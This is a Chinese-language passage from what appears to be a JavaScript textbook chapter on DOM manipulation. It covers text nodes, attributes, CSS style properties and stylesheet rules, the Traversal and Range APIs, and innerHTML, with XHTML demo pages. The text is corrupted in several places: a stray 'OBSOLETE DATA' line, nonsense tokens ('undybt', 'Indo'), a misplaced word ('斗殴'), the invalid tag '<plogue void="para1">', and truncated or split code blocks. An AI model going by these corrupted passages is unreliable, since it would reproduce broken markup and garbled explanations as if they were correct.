| substringData(*offset*,*count*) | 返回一个字符串，该字符串对应于从索引 *offset* 开始并延续 *count* 个字符的子字符串。 |

以下示例说明了这些方法的使用：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Text Node Modifications</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
```

OBSOLETE DATA

```
<body>
<p id="p1">This is a test</p>
```

 <script type="text/javascript">
<!--
  var textNode = document.getElementById('p1').firstChild;
//-->
</script>

<form action="#" method="get">
  <input type="button" value="显示"  onclick="alert(textNode.data);" />
  <input type="button" value="长度" onclick="alert(textNode.length);" />
  <input type="button" value="更改" onclick="textNode.data = 'Now a new value!'" />
  <input type="button" value="追加" onclick="textNode.appendData(' added to the end');" />
  <input type="button" value="插入" onclick="textNode.insertData(0,'added to the front');" />
  <input type="button" value="删除" onclick="textNode.deleteData(0, 2);" />
  <input type="button" value="替换" onclick="textNode.replaceData(0,4,'Zap!');" />
  <input type="button" value="子串"
         onclick="alert(textNode.substringData(2,2));" />
  <input type="button" value="分割"
         onclick="temp = textNode.splitText(5); alert('Text node ='+textNode.data+'\nSplit Value = '+temp.data);" />
</form>

**注意** *在检索到文本节点的* **数据** *值后，你总可以使用* **第7章** *中讨论过的任何* **字符串** *方法来修改该值，然后将其保存回节点。*

最后，请注意，使用这些属性和方法也能够操作**注释**节点的值。然而，由于注释不影响文档呈现，通常不会以这种方式进行修改。你可能忍不住想开始考虑使用这种技术来修改包裹在（X）HTML注释掩码中的CSS属性，但这是不可取的。我们将在本章后面名为“DOM与CSS”的小节中看到DOM Level 2如何提供对CSS属性的访问。

### 操作属性

此时你可能想知道如何创建带有属性的更复杂的元素。DOM Level 1支持许多元素属性方法，包括 **getAttribute(name)**、**setAttribute(attributename, attributevalue)** 和 **removeAttribute(attributeName)**。在DOM Level 2中，甚至有一个非常有用的 **Node** 对象方法 **hasAttributes()**，可用于确定元素是否具有任何已定义的属性。鉴于这些方法与我们已经见过的方法相似，我们不会在此处过多展开。以下示例应足以说明属性操作：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>属性测试</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<font id="test" size="2" color="red">更改我的属性！</font>
<script type="text/javascript">
<!--
     theElement = document.getElementById('test');
//-->
</script>
<form name="testform" id="testform" action="#" method="get">
颜色: <input type="text" id="color" name="color" value="" size="8" />
<input type="button" value="设置颜色"
onclick="theElement.setAttribute('color',document.testform.color.value);" />
<input type="button" value="移除颜色"
 onclick="theElement.removeAttribute('color');" />
<br />
大小:
<select onchange="theElement.setAttribute('size',this.options[this.selectedIndex].text);">
    <option>1</option>
    <option>2</option>
    <option selected="selected">3</option>
    <option>4</option>
    <option>5</option>
    <option>6</option>
    <option>7</option>
</select>
</form>
<script type="text/javascript">
<!--
    document.testform.color.value = theElement.getAttribute('color');
//-->
</script>
</body>
</html>
```

**注意** 在日益以CSS为中心的Web中，*&lt;font&gt;* 标签通常不受欢迎，但对于这个演示来说它很有用，因为它的属性能以显著的方式展示视觉变化。

### DOM与HTML元素

既然我们已经介绍了如何创建（X）HTML元素以及如何设置和操作属性，那么由于DOM的影响，标记语言和JavaScript变得多么紧密交织就应该很清楚了。简而言之，要有效利用DOM，你必须精通（X）HTML语法，因为许多对象属性直接映射到（X）HTML元素的属性。例如，HTML 4.01下定义的段落元素具有以下基本语法：

```
<p align="left | center | right | justify"
    id="unique id"
    class="class name"
    style="style rules"
    title="advisory text"
    lang="language code"
    dir="text direction either LTR or RTL">
    paragraph content
</p>
```

DOM Level 1在 **HTMLParagraphElement** 中暴露了这些属性中的大部分，包括 **align**、**id**、**className**、**title**、**lang** 和 **dir**。DOM Level 2还暴露了 **style**，我们将在[下一节](#)中讨论它。各种事件处理程序，如 **onclick** 和 **onmouseover**，也是可设置的（通过[下一章](#)讨论的机制）。

所有HTML元素接口都派生自基本的 **HTMLElement** 对象，该对象定义了 **id**、**className**、**title**、**lang** 和 **dir**。许多HTML元素不支持任何其他属性。这些元素包括：

- HEAD
- 特殊: **SUB**, **SUP**, **SPAN**, 和 **BDO**
- 字体: **TT**, **I**, **B**, **U**, **S**, **STRIKE**, **BIG**, 和 **SMALL**
- 短语: **EM**, **STRONG**, **DFN**, **CODE**, **SAMP**, **KBD**, **VAR**, **CITE**, **ACRONYM**, 和 **ABBR**
- 列表: **DD** 和 **DT**
- NOFRAMES 和 NOSCRIPT
- ADDRESS 和 CENTER

除了核心属性外，元素其余属性遵循（X）HTML语法。事实上，如果你已经非常熟悉（X）HTML，通过遵循这些基本的经验法则，很容易猜出对应于HTML元素属性的DOM属性。如果属性是像“align”这样的简单单词值，除非该单词与JavaScript保留字冲突，否则它将被原样表示。例如，由 **HTMLLabelElement** 定义的 **&lt;label&gt;** 标签支持 **for** 属性，这显然会与JavaScript中的 **for** 语句冲突。为了纠正这一点，通常会在前面加上“html”一词，因此在前一种情况下，DOM将此属性表示为 **htmlFor**。在少数其他情况下，此规则未被遵循。例如，对于 **&lt;col&gt;** 标签，属性 **char** 和 **charoff** 在DOM Level 1下变成了 **ch** 和 **chOff**。幸运的是，这些例外情况很少。最后，如果属性具有两个单词的标识符，例如 **tabindex**，它将在DOM中以标准的JavaScript驼峰命名法表示，在本例中为 **tabIndex**。

HTML到DOM映射中唯一的主要变化是表格。鉴于HTML 4.0中表格复杂性的增加，有许多方法可以创建和删除表格的各个方面，例如标题、行和单元格，以及HTML 4.0标签，如 **&lt;tfoot&gt;**、**&lt;thead&gt;** 和 **&lt;tbody&gt;**。这些都在附录B中详细说明，并在第13章中演示。

最后，为了支持传统的JavaScript编程语法，你会发现 **form** 元素本身以及各种表单字段元素（如 **input**、**select**、**textarea** 和 **button**）的许多方法和属性。我们将在第14章深入讨论表单操作。

作为DOM能做什么的简要演示，以下示例展示了一个使用DOM方法的非常简单的HTML创建工具。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>DOM HTML编辑器 0.1</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--

function addElement()
{
 var choice = document.htmlForm.elementList.selectedIndex;
 var theElement =
 document.createElement(document.htmlForm.elementList.options[choice].text);
 var textNode = document.createTextNode(document.htmlForm.elementText.value);
 var insertSpot = document.getElementById('addHere');

 theElement.appendChild(textNode);
 insertSpot.appendChild(theElement);
}

function addEmptyElement(elementName)
{
 var theBreak = document.createElement(elementName);
```


### DOM 与 CSS

当今浏览器支持的 DOM 标准的一个重要方面是 CSS。DOM Level 2 增加了操作 CSS 值的支持。DHTML 对象模型（尤其是微软的模型）也支持类似的功能，并且由于 Internet Explorer 对 DOM Level 2 的支持尚不完整，因此这里也会提及这些功能。

#### 内联样式操作

开发者使用 JavaScript 修改 CSS 值的主要方式是通过对应于特定 HTML 元素内联样式表规范的 **style** 属性。例如，如果你有一个这样的段落：

```
<p id="myParagraph">This is a test</p>
```

你可以像这样插入一个内联样式：

```
<p id="myParagraph" style="color: red;">This is a test</p>
```

要使用 JavaScript DOM 接口进行操作，你可以使用这样的脚本：

```
theElement = document.getElementById("myParagraph");

theElement.style.color = "green";
```

与 (X)HTML 操作一样，关键问题是如何将各种 CSS 属性名映射到 DOM 属性名。在 CSS 的情况下，你经常会遇到带连字符的属性名，比如 **background-color**，在 JavaScript 中它变成了 **backgroundColor**。通常，带连字符的 CSS 属性在 DOM 中表示为一个单词，并采用驼峰式大写。此规则适用于所有 CSS 属性，除了 **float**，它变成了 **cssFloat**，因为 "float" 是 JavaScript 的保留字。表 10-6 列出了常用的 CSS1 和 CSS2 属性及其对应的 DOM 属性以供参考。

| CSS 属性 | DOM Level 2 属性 |
| --- | --- |
| background | background |
| background-attachment | backgroundAttachment |
| background-color | backgroundColor |
| background-image | backgroundImage |
| background-position | backgroundPosition |
| background-repeat | backgroundRepeat |
| border | border |
| border-color | borderColor |
| border-style | borderStyle |
| border-top | borderTop |
| border-right | borderRight |
| border-left | borderLeft |
| border-bottom | borderBottom |
| border-top-color | borderTopColor |
| border-right-color | borderRightColor |
| border-bottom-color | borderBottomColor |
| border-left-color | borderLeftColor |
| border-top-style | borderTopStyle |
| border-right-style | borderRightStyle |
| border-bottom-style | borderBottomStyle |
| border-left-style | borderLeftStyle |
| border-top-width | borderTopWidth |
| border-right-width | borderRightWidth |
| border-bottom-width | borderBottomWidth |
| border-left-width | borderLeftWidth |
| border-width | borderWidth |
| clear | clear |
| Clip | clip |
| color | color |
| display | display |
| float | cssFloat |
| Font | font |
| Font-family | fontFamily |
| Font-size | fontSize |
| Font-style | fontStyle |
| Font-variant | fontVariant |
| Font-weight | fontWeight |
| height | height |
| Left | left |
| letter-spacing | letterSpacing |
| Line-height | lineHeight |
| list-style | listStyle |
| list-style-image | listStyleImage |
| list-style-position | listStylePosition |
| list-style-type | listStyleType |
| margin | margin |
| margin-top | marginTop |
| margin-right | marginRight |
| margin-bottom | marginBottom |
| margin-left | marginLeft |
| overflow | overflow |
| padding | padding |
| padding-top | paddingTop |
| padding-right | paddingRight |
| padding-bottom | paddingBottom |
| padding-left | paddingLeft |
| position | position |
| Text-align | textAlign |
| Text-decoration | textDecoration |
| Text-indent | textIndent |
| Text-transform | textTransform |
| Top | top |
| vertical-align | verticalAlign |
| Visibility | visibility |
| white-space | whiteSpace |
| Width | width |
| word-spacing | wordSpacing |
| z-index | zIndex |

这里提供了一个操作多个常用 CSS 属性的示例。其渲染效果如图 10-5 所示。


图 10-5：CSS 内联测试器在 Mozilla 下的渲染效果

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>
<title>CSS Inline Rule Scripting</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<div id="test"> CSS Rules in Action </div>
<hr />

<script type="text/javascript">
<!--

    theElement = document.getElementById("test");

//-->
</script>

<form id="cssForm" name="cssForm" action="#" method="get">
<strong>Alignment:</strong>
<select
 onchange="theElement.style.textAlign=this.options[this.selectedIndex].text;">
        <option>left</option>
        <option>center</option>
        <option>right</option>
        <option>justify</option>
</select>
<br /><br />

<strong>Font:</strong>
<select
 onchange="theElement.style.fontFamily=this.options[this.selectedIndex].text;">
<option>sans-serif</option>
<option selected="selected">serif</option>
<option>cursive</option>
<option>fantasy</option>
<option>monospace</option>
</select>
&nbsp;&nbsp;
<input type="text" id="font" name="font" size="10" value="Impact" />
<input type="button" value="set" onclick="theElement.style.fontFamily = document.cssForm.font.value;" />
<br /><br />
<strong>Style:</strong>
<select onchange="theElement.style.fontStyle=this.options[this.selectedIndex].text;">
    <option>normal</option>
    <option>italic</option>
    <option>oblique</option>
</select>
<strong>Weight:</strong>
<select onchange="theElement.style.fontWeight=this.options[this.selectedIndex].text;">
    <option>normal</option>
    <option>bolder</option>
    <option>lighter</option>
</select>
```


#### 使用类和集合实现动态样式

以之前章节的方式操作样式只能一次作用于单个标签。本节将探讨如何以更复杂的方式操作样式规则。首先，考虑使用 CSS **类**选择器。你可能有一个包含两个类规则的样式表，如下所示：

```html
<style type="text/css">

<!--

.look1 {color: black; background-color: yellow; font-style: normal;}

.look2 {background-color: orange; font-style: italic;}

-->

</style>
```

然后，我们可以将其中一个类应用到特定的 `<p>` 标签，像这样：
```html
<p id="myP1" class="look1">This is a test</p>
```

接着，你可以使用 JavaScript 语句来更改元素的 **类**，从而操纵该段落的外观。元素的 **类** 属性通过其 **className** 属性暴露出来：

```javascript
theElement = document.getElementById("myP1");

theElement.className = "look2";
```

以下示例展示了使用这种 DOM 技术实现的简单翻转效果：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Class Warfare</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">

<!--

  body  {background-color: white; color: black;}

.style1 {color: blue; font-weight: bold;}

.style2 {background-color: yellow; color: red;
              text-decoration: underline;}

.style3 {color: red; font-size: 300%;}

-->

</style>

</head>

<body>

<p class="style1"

    onmouseover="this.className='style2';"

    onmouseout="this.className = 'style1';">Roll over me</p>

<p>How about

<span class="style2" onmouseover="this.className='style1';"

                       onmouseout="this.className= 'style2';">me</span>?</p>

<p> Be careful as dramatic style changes may

<span class="style1"

     onmouseover="this.className = 'style3';"

     onmouseout="this.className = 'style1';">reflow a document</span>

significantly</p>

</body>

</html>
```

另一种进行操作的方式是使用 **getElementsByTagName()** 方法，并对返回的每个单独元素执行样式更改。以下示例说明了这种技术，它允许用户动态设置文档中段落的对齐方式。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Change Style On All Paragraphs</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<p>This is a paragraph</p>

<p>This is a paragraph</p>

<div>This is not a paragraph</div>

<p>This is a paragraph</p>

<script type="text/javascript">

<!--

function alignAll(alignment)

{

  var allparagraphs = document.body.getElementsByTagName('p');

  for (var i = 0; i < allparagraphs.length; i++)

    allparagraphs.item(i).style.textAlign = alignment;

}

//-->  

</script>

<form action="#" method="get">

<input type="button" value="left align all paragraphs" 

       onclick="alignAll('left');" />

<input type="button" value="center all paragraphs" 

       onclick="alignAll('center');" />

<input type="button" value="right align all paragraphs"

        onclick="alignAll('right');" />

</form>

</body>

</html>
```

不得不遍历一组元素可能显得繁琐，特别是当你可能为每个元素设置了不同的规则时。如果你是 CSS 高手，你可能更倾向于操作文档级甚至外部样式表中的复杂规则集。

#### 访问复杂的样式规则

到目前为止，我们还没有讨论如何访问 **`<style>`** 标签中的 CSS 规则，或者如何动态设置链接的样式表。DOM Level 2 确实提供了这样的接口，但截至本文撰写时，浏览器的支持仍然有限，并且在存在的地方也可能存在很多错误。本节仅作为一些更高级的 DOM Level 2 CSS 绑定的简要介绍。

在 DOM Level 2 下，**Document** 对象支持 **styleSheets[]** 集合，我们可以用它来访问文档中的各种 **`<style>`** 和 **`<link>`** 标签。因此，

```javascript
var firstStyleSheet = document.styleSheets[0];
```

或

```javascript
var firstStyleSheet = document.styleSheets.item(0);
```

获取一个对应于 HTML 中第一个 **`<style>`** 元素的对象。其属性对应于 HTML 属性，就像我们之前看到的其他对应关系一样。最常见的属性如表 10-7 所示。

##### 表 10-7：样式对象属性

| 属性 | 描述 |
|---|---|
| **type** | 指示样式表的 **类型**，通常是 "text/css"。只读。 |
| **disabled** | 布尔值，指示样式表是否被禁用。可设置。 |
| **href** | 存储样式表的 **href** 值。通常不可修改，但在 Internet Explorer 下，你可以动态切换链接的样式表。 |
| **title** | 存储元素的 **title** 属性的值。 |
| **media** | 存储样式表的 **media** 设置列表，例如 "screen"。 |

> **注意** 在 DOM 下，当样式是外部链接时，你无法修改其规则，也无法将链接样式表的引用更改为替代值。但是，你可以用本地规则覆盖它们。

在 DOM 下，**CSSStyleSheet** 对象继承了 **StyleSheet** 对象的特性，然后添加了包含样式块中各种规则的 **cssRules[]** 集合，以及 **insertRule()** 和 **deleteRule()** 方法。**insertRule()** 的语法是 *theStyleSheet.insertRule('ruletext', index)*，其中 *ruletext* 是包含样式表选择器和规则的字符串，*index* 是要在规则集中插入的位置。位置是相关的，因为这些是*层叠*样式表。类似地，*deleteRule()* 方法接受一个 *index* 值并删除相应的规则，因此 **theStyleSheet.deleteRule(0)** 将删除由 *theStyleSheet* 表示的样式表中的第一条规则。不幸的是，截至本文撰写时，Internet Explorer 不支持这些 DOM 功能，而是依赖于其 **styleSheet** 对象上的类似 **addRule()** 和 **removeRule()** 方法。

可以通过 **cssRules[]** 集合（或在 Internet Explorer 中使用非标准的 **rules[]** 集合）来访问单个规则。一旦访问了规则，你就可以访问其 selectorText 属性来检查规则选择器，或者访问 **style** 属性来访问实际的规则集。虽然 DOM Level 2 提供了各种方法，例如 **getPropertyValue()** 和 **setProperty()**，来修改规则，但通常更安全的方法是直接访问 **style** 对象，然后访问与所讨论 CSS 属性对应的 DOM 属性。例如，*theStyleSheet.cssRules[0].style.color = 'blue'* 将修改（或添加）样式表中第一条 CSS 规则的一个属性。在 Internet Explorer 下，你将使用 *theStyleSheet.rules[0].style.color = 'blue'*。以下

script 演示了样式表规则操作的基本方法：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Style Rule Changes</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css" id="style1">

<!--

h1 {color: red; font-size: 24pt; font-style: italic; font-family: Impact;}

p {color: blue; font-size: 12pt; font-family: Arial;}

body {background-color: white;}

strong {color: red;}

em {font-weight: bold; font-style: normal; text-decoration: underline;}

-->

</style>

</head>

<body>

<h1>CSS Test Document</h1>

<hr />

<p>This is a <strong>test</strong> paragraph.</p>

<p>More <em>fake</em> text goes here.</p>

<p>All done. Don't need to <strong>continue this</strong></p>

<hr />

<h3>End of Test Document</h3>

<script type="text/javascript">

<!--

var styleSheet = document.styleSheets[0];

function modifyRule()
{
    if (styleSheet.rules)
      styleSheet.cssRules = styleSheet.rules;
    if (styleSheet.cssRules[0])
    {
      styleSheet.cssRules[0].style.color='purple';
      styleSheet.cssRules[0].style.fontSize = '36pt';
      styleSheet.cssRules[0].style.backgroundColor = 'yellow';
    }
}

function deleteRule()
{
    if (styleSheet.rules)
      styleSheet.cssRules = styleSheet.rules;

    if (styleSheet.cssRules.length > 0) // still rules left
    {
      if (styleSheet.removeRule)
        styleSheet.removeRule(0);
      else if (styleSheet.deleteRule)
        styleSheet.deleteRule(0);
    }
}

function addRule()
{
    if (styleSheet.addRule)
        styleSheet.addRule("h3", "color:blue", 0);
    else if (styleSheet.insertRule)
        styleSheet.insertRule("h3 {color: blue}", 0);
}

//-->

</script>

<form action="#" method="get">

  <input type="button" value="Enable" onclick="document.styleSheets[0].disabled=false;" />
  <input type="button" value="Disable" onclick="document.styleSheets[0].disabled=true;" />
  <input type="button" value="Modify Rule" onclick="modifyRule();" />
  <input type="button" value="Delete Rule" onclick="deleteRule();" />
  <input type="button" value="Add Rule" onclick="addRule();" />

</form>

</body>

</html>
```

在上面的示例中有几个需要仔细研究的要点。首先，注意我们如何使用条件语句来检测特定对象的存在，例如 Internet Explorer 的专有集合和方法。其次，注意在 **rules[]** 与 **cssRules[]** 的对比中，我们添加该集合是为了在 Internet Explorer 下模拟正确的 DOM 语法。最后，注意 **if** 语句是如何用于确保仍有可操作的规则的。你永远无法完全确定某个设计师没有修改过规则，所以要编写防御性代码！

> **注意** *你可能会发现此示例在某些浏览器下运行效果不佳。它还可能因为规则删除后不一定能自动刷新反映而出现刷新问题。如果你启用或禁用规则，或刷新文档，可能会注意到这些变化。*

### DOM 遍历 API

DOM 遍历 API（http://www.w3.org/TR/DOM-Level-2-Traversal-Range/）在 DOM Level 2 中引入，是一个便捷的扩展，它提供了一种系统化的方式来依次遍历和检查文档树中的各个节点。该规范引入了两个对象：**NodeIterator** 和 **TreeWalker**。

使用 `document.CreateNodeIterator()` 创建的 **NodeIterator** 对象可用于将文档树或子树的表示扁平化，然后可以通过 **nextNode()** 和 **previousNode()** 方法进行遍历。在创建 **NodeIterator** 时可以设置过滤器，允许你选择特定的标签。

与 **NodeIterator** 类似，**TreeWalker** 对象提供了一种遍历节点集合的方式，但它保留了树结构。要创建 **TreeWalker**，请使用 `document.createTreeWalker`，然后使用 **firstChild()**、**lastChild()**、**nextSibling()**、**parentNode()** 和 **previousSibling()** 方法来导航文档树。**TreeWalker** 还提供了使用 **nextNode()** 遍历扁平化树的能力，因此在某种意义上，**NodeIterator** 并不是真正必需的。作为示例，我们使用 **TreeWalker** 对象重新编写本章前面的树遍历示例。

> 注意 *DOM 遍历 API 在 Internet Explorer 6 或更早版本中不受支持。要查看此示例的实际效果，请使用 Mozilla 或其他支持 DOM 遍历的浏览器。*

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DOM Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1>DOM Test Heading</h1>

<hr />

<!-- Just a comment -->

<p>A paragraph of <em>text</em> is just an example</p>

<ul>

    <li><a href="http://www.yahoo.com">Yahoo!</a></li>

</ul>

<form name="testform" id="testform" action="#" method="get">

Node Name: <input type="text" id="nodeName" name="nodeName" /><br />
Node Type: <input type="text" id="nodeType" name="nodeType" /><br />
Node Value: <input type="text" id="nodeValue" name="nodeValue" /><br />

</form>

<script type="text/javascript">

<!--

if (document.createTreeWalker)
{
  function myFilter(n) { return NodeFilter.FILTER_ACCEPT; }

  var myWalker =
  document.createTreeWalker(document.documentElement,NodeFilter.SHOW_ALL,myFilter,
false);
}
else
  alert("Error: Browser does not support DOM Traversal");

function update(currentElement)
{
  window.document.testForm.nodeName.value = currentElement.nodeName;
  window.document.testForm.nodeType.value = currentElement.nodeType;
  window.document.testForm.nodeValue.value = currentElement.nodeValue;
}

var currentElement = myWalker.currentNode;
update(currentElement);

//-->

</script>

<form action="#" method="get">

  <input type="button" value="Parent" onclick="myWalker.parentNode();update(myWalker.currentNode);" />
  <input type="button" value="First Child" onclick="myWalker.firstChild();update(myWalker.currentNode);" />
  <input type="button" value="Last Child" onclick="myWalker.lastChild();update(myWalker.currentNode);" />
  <input type="button" value="Next Sibling" onclick="myWalker.nextSibling();update(myWalker.currentNode);" />
  <input type="button" value="Previous Sibling" onclick="myWalker.previousSibling();update(myWalker.currentNode);" />
  <input type="button" value="Next Node" onclick="myWalker.nextNode();update(myWalker.currentNode);" />
  <input type="button" value="Reset to Root" onclick="myWalker.currentNode=document.documentElement; update(currentElement);" />

</form>

</body>

</html>
```

虽然遍历 API 的实现并不广泛，但编写自己的递归树遍历功能相当容易。迭代方式要简单得多，实际上只是 **document.all[]** 的一种变体。

### DOM 范围选择

DOM Range API（[http://www.w3.org/TR/DOM-Level-2-Traversal-Range/](http://www.w3.org/TR/DOM-Level-2-Traversal-Range/)）在 DOM Level 2 中引入，是另一个便捷扩展，允许你以编程方式选择文档中的内容范围。要创建一个范围，请使用 `document.CreateRange()`，它将返回一个 `Range` 对象。

`var myRange = document.createRange();`

获得 `Range` 对象后，你可以使用多种方法设置其包含的内容。对于我们示例中的范围，我们可能会使用 `myRange.setStart()`、`myRange.setEnd()`、`myRange.setStartBefore()`、`myRange.setStartAfter()`、`myRange.setEndBefore()` 和 `myRange.setEndAfter()` 来设置范围的起始点和结束点。这些方法主要接受一个 `Node` 参数，不过 `setStart()` 和 `setEnd()` 还接受一个表示偏移量的数值。你同样可以使用 `myRange.selectNode()` 选择特定节点，或使用 `myRange.selectNodeContents()` 选择其内容。下面的简单示例将两个段落选为一个范围。

```html
<p id="p1">This is sample <em>text</em> go ahead and create a <i>selection</i>
over a portion of this paragraph.</p>

<p id="p2">Another paragraph</p>

<p id="p3">Yet another paragraph.</p>

<script type="text/javascript">

<!--

var myRange;

if (document.createRange)
{
    myRange = document.createRange();
    myRange.setStartBefore(document.getElementById('p1'));
    myRange.setEndAfter(document.getElementById('p2'));
    alert(myRange);

    /* Now highlight using Mozilla style selections */
    mySelection = window.getSelection();
    mySelection.addRange(myRange);
}

//-->

</script>
```


一旦你获取了一个范围（range），就可以对它执行多种方法，包括 **extractContents()**、**cloneContents()** 和 **deleteContents()**，甚至可以使用 **insertNode()** 来添加内容。虽然 Range API 非常有趣，但在撰写本书时，Mozilla 浏览器仅部分实现了该 API。Internet Explorer 则使用了完全不同的专有方法来处理范围和选择。

### DOM 即将推出的特性

DOM 仍在不断完善中，DOM Level 3 以及 Level 2 中尚未实现的部分将为 JavaScript 程序员带来许多新功能。其中一些是便利方法，例如允许你重命名元素或属性的 `renameNode()`，以及支持节点比较的 `isEqualNode()` 和 `isSameNode()`。我们甚至可以使用 `compareDocumentPosition()` 或判断 `isElementContentWhitespace()`，这在处理文档的不同解释时可能大有帮助。其他 DOM Level 3 特性还包括将 XML 文档内容加载到文档中的能力，以及将当前文档序列化为 XML，甚至还包括视图（views）的实现，这表明就连 Window 对象将来也可能被标准化。遗憾的是，按照标准当前的进展速度，完成它可能还需要一段时间，而要在 Web 浏览器中看到这些功能则需要更长的时间。在 DOM 得到更完整和一致的实现之前，JavaScript 程序员仍需了解专有的 DHTML 对象模型特性。

### DOM 与 DHTML 对象模型

如果你觉得上一章中的对象集合比 DOM 更容易理解，那么你并不孤单。许多 JavaScript 程序员为了避开 DOM Level 1 的复杂性，而偏爱使用旧式的集合，如 **document.forms[]** 和undybt **document.images[]**，甚至是专有集合如 **document.all[]**。幸运的是，其中许多在 DOM Level 0 中都有支持，因此这些人并没有脱离标准。即使他们确实使用了专有特性，也是有充分理由的，因为 DOM 的某些方面有些笨拙，特别是在向文档斗殴添加内容时。正因为如此，一些专有特性如微软的 **innerHTML** 甚至被添加到了严格遵循标准的浏览器中。此外，其他特性的存在 simply because IE 是迄今为止占主导地位的浏览器。由于 IE 占据主导地位这一现实，让我们再来看看几个 4.x 代浏览器对象模型中拒不消亡的特性。

#### innerHTML 的强大功能

Netscape 6+、Opera 7+ 和 Internet Explorer 4+ 都支持非标准的 **innerHTML** 属性。该属性可以轻松读取和修改元素的 HTML 内容。**innerHTML** 属性保存一个字符串，表示元素所包含的 HTML。给定以下 HTML 标记：

```html
<plogue void="para1">This is a <em>test</em> paragraph.</p>
```

以下脚本获取其中包含的内容：

```javascript
var theElement = document.getElementById("para1");

alert (theElement.innerHTML);
```

如下所示：


你也可以使用 **innerHTML** 属性轻松设置 HTML 元素的内容。以下简单示例提供了一个表单字段来修改 <p> 标签的内容。尝试运行示例并添加 HTML 标记。正如你所见，使用此属性向节点添加 HTML 内容远比使用标准 DOM 方法创建和设置节点要容易得多。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>innerHTML Tester</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body onload="document.testForm.content.value = theElement.innerHTML;">
<div id="div1">This is a <em>test</em> of innerHTML.</div>
<script type="text/javascript">
<!--
var theElement = document.getElementById("div1");
//-->
</script>
<form name="testForm" id="testForm" action="#" method="get">
Element Content:
<input type="text" name="content" id="content" size="60" />
<input type="button" value="set" onclick="theElement.innerHTML =
document.testForm.content.value;" />
</form>
</body>
</html>
```

#### innerText、outerText 和 outerHTML

Internet Explorer 还支持 **innerText**、**outerText** 和 **outerHTML** 属性。**innerText** 属性的工作方式与 **innerHTML** 类似，只是设置的任何内容都将被解释为纯文本而非 HTML。因此，字符串中包含的 HTML 标记不会创建相应的 HTML 元素。设置 **para1.innerText** = "<b>test</b>" 的结果不是粗体文本，而是将字符串显示为 "<b>test</b>"。**outerHTML** 和 **outerText** 属性的工作方式与相应的 **inner** 属性类似，只是它们还会修改元素本身。如果你设置 **para1.outerHTML** = "<b>test</b>"，实际上会移除段落元素并将其替换为 "<b>test</b>"。如果你想尝试这些属性，以下示例会很有用。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>inner/outer Tester</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body onload="document.testForm.content.value = theElement.innerHTML;">
<div style="background-color: yellow">
<br />
<p id="para1">This is a <em>test</em> paragraph.</p>
<br />
</div>
<br /><br /><hr />
<script type="text/javascript">
<!--
var theElement = document.getElementById("para1");
//-->
</script>
<form name="testForm" id="testForm" action="#" method="get">
Element Content:
<input type="text" name="content" id="content" size="60" /> <br />
<input type="button" value="set innerHTML"
      onclick="theElement.innerHTML = document.testForm.content.value;" />
<input type="button" value="set innerText"
      onclick="theElement.innerText = document.testForm.content.value;" />
<input type="button" value="set Indo outerText"
      onclick="theElement.outerText = document.testForm.content.value;" />
<input type="button" value="set outerHTML"
      onclick="theElement.outerHTML = document.testForm.content.value;" />
<input type="button" value="Reset" onclick="location.reload();" />
</form>
</body>
</html>
```

#### document.all[]

